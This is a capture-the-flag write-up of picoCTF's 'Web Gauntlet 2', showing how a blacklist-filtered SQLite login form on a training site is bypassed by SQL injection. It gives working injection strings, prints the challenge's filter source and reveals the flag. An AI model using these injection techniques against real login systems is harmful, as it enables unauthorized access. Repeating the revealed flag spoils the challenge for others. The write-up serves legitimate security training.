 **Tristan Gomez**

# Web Gauntlet 2

### Author: MADSTACKS

### Description:

`
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:21336/ Filter: http://mercury.picoctf.net:21336/filter.php
`

### Hints:
  * I tried to make it a little bit less contrived since the mini competition.
  * Each filter is separated by a space. Spaces are not filtered.
  * There is only 1 round this time, when you beat it the flag will be in filter.php.
  *  There is a length component now.
  *  sqlite


### filter.php

`Filters: or and true false union like = > < ; -- /* */ admin`


### Step 1

When visiting the challenge page, we are immediately greeted by a login form with `username` and `password` parameters. Entering `test:test` into the form and then clicking the `sign in` button will cause the page to display the sql query being ran.

```
SELECT username, password FROM users WHERE username='test' AND password='test'
```

### Step 2

With the query and filters being applied known, we can craft an exploit. Remember that we are using `sqlite` so that concatenation operator is `|`. This will allow us to enter `ad'||'min` as our username which will bypass the filters and be evaulated as `admin`.

Next, we need to see how we can bypass the password field. This is a trickier problem, but I hope you remember your operator precedence for sqlite! (I know I didn't!). If we use the `IS NOT` clause in our query then it will be evaluated before the password field is. Using the string below in the password field will bypass the password field.

```
a' IS NOT 'password
```

What's going on behind the scenes here is that `'a'` is being compared against `'password'` first. Since `'a' IS NOT 'password'` evaluates to true before the password field is checked, the password is evaluated as being true without ever really being checked. Isn't precedence cool!?(read as *confusing*). <br />

Upon entering our exploit strings, green text appears stating 
```
Congrats! You won! Check out filter.php
```

Clicking the filter.php link gives us the source for the challenge.

```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_838ec9084e6e0a65e4632329e7abc585}
?>
```

**FLAG: picoCTF{0n3_m0r3_t1m3_838ec9084e6e0a65e4632329e7abc585}***
